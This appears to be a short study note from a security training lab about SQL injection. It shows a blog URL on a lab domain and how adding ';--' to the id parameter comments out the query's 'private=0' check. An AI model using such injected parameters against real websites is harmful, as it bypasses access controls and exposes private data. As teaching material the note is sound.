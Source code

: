 
### SQLi parameter

`https://website.thm/blog?id=1`
possibly running: `SELECT * from blog where id=1 and private=0 LIMIT 1;`

`https://website.thm/blog?id=2;--`
possibly running `SELECT * from blog where id=2;-- and private=0 LIMIT 1;`

